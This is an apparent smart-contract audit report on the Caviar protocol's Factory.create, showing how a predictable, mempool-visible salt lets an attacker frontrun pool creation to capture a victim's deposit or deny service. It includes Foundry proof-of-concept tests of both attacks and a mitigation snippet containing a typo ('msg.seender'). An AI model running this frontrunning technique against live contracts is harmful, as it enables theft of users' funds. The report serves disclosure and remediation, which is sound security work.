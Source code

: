 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- high quality report
- primary issue
- selected for report
- sponsor confirmed
- M-11

# [`Factory.create`: Predictability of pool address creates multiple issues.](https://github.com/code-423n4/2023-04-caviar-findings/issues/419) 

# Lines of code

https://github.com/code-423n4/2023-04-caviar/blob/main/src/Factory.sol#L92


# Vulnerability details

## Impact
The `Factory.create` function is responsible for creating new `PrivatePool`s. It does this using the `LibClone.cloneDeterministic` function.

```solidity
    function create(
        ...
        bytes32 _salt,
        ...
    ) public payable returns (PrivatePool privatePool) {
        if ((_baseToken == address(0) && msg.value != baseTokenAmount) || (_baseToken != address(0) && msg.value > 0)) {
            revert PrivatePool.InvalidEthAmount();
        }

        // deploy a minimal proxy clone of the private pool implementation
        privatePool = PrivatePool(payable(privatePoolImplementation.cloneDeterministic(_salt)));

        // ...
    }
```

The address of the new PrivatePool depends solely upon the `_salt` parameter provided by the user. Once the user's create transaction is broadcasted, the  `_salt` parameter can be viewed by anyone watching the public mempool.

This public readability of `_salt` parameter creates two issues:

1. Stealing of user's deposit amount.
If a user intends to create new pool and deposit some funds in it then an attacker can frontrun the user's txns and capture the deposit amounts. Here is how this can happen:
     - User broadcasts two txns, first one to create a pool with `XXX` as the salt and second one to deposit some ETH into the new pool.
     - The attacker views these pending txns and frontruns them to create a PrivatePool for himself with same `XXX` salt.
     - The new pool gets created for the attacker, the address of this pool will be same as what the user will be expecting for his pool.
     - The user's create pool txn gets reverted but deposit txn gets executed successfully. Hence the user deposited ETH in  attacker's pool.
     - Being the owner of the pool the attacker simply withdraws the deposited ETH from the PrivatePool.

2. DoS for `Factory.create`.
If a user intends to create a PrivatePool, his create txn can be forcefully reverted by an attacker by deploying a pool for himself using the user's salt. Here is how this can happen:
    - The user broadcasts the create pool txn with salt `XXX`.
    - The attacker frontruns the user's txn and creates a pool for hiself using the same `XXX` salt.
    - The user's original create txn gets reverted as attacker's pool already exist on the predetermined address.
    - This attack can be repeated again and again resulting in DoS for the `Factory.create` function.

## Proof of Concept
These test cases were added to `test/PrivatePool/Withdraw.t.sol` file and were ran using `forge test --ffi --mp test/PrivatePool/Withdraw.t.sol --mt test_audit`

```solidity
    function test_audit_create_stealDeposit() public {
        address user1 = makeAddr("user1");
        vm.deal(user1, 10 ether);
        vm.startPrank(user1);

        address predictedAddress = factory.predictPoolDeploymentAddress(bytes32(0));

        // tries to create pool and deposit funds
        // 1. factory.create(...)
        // 2. pool.deposit(...)

        // but user2 frontruns the txns

        address user2 = makeAddr("user2");
        changePrank(user2);

        uint baseTokenAmount = 0;

        PrivatePool pool = factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );
        assertEq(predictedAddress, address(pool));
        assertEq(factory.ownerOf(uint256(uint160(address(pool)))), address(user2));

        changePrank(user1);

        vm.expectRevert(LibClone.DeploymentFailed.selector);
        factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );

        pool.deposit{ value: 10 ether }(tokenIds, 10 ether);
        assertEq(address(pool).balance, 10 ether);

        changePrank(user2);
        pool.withdraw(address(0), tokenIds, address(0), 10 ether);
        assertEq(address(pool).balance, 0);
        assertEq(user2.balance, 10 ether);
    }

    function test_audit_create_DoS() public {
        address user1 = makeAddr("user1");
        vm.deal(user1, 10 ether);
        vm.startPrank(user1);

        address predictedAddress = factory.predictPoolDeploymentAddress(bytes32(0));

        // user1 tries to create pool
        // factory.create(...)

        // but user2 frontruns the txn

        address user2 = makeAddr("user2");
        changePrank(user2);

        uint baseTokenAmount = 0;

        PrivatePool pool = factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );
        assertEq(predictedAddress, address(pool));
        assertEq(factory.ownerOf(uint256(uint160(address(pool)))), address(user2));

        changePrank(user1);

        vm.expectRevert(LibClone.DeploymentFailed.selector);
        factory.create{value: baseTokenAmount}(
            baseToken,
            nft,
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            bytes32(0),
            tokenIds,
            baseTokenAmount
        );
    }
```

## Tools Used
Foundry

## Recommended Mitigation Steps
Consider making the upcoming pool address user specific by combining the salt value with user's address.
```solidity
    privatePool = PrivatePool(payable(privatePoolImplementation.cloneDeterministic(
        keccak256(abi.encode(msg.seender, _salt))
    )));
```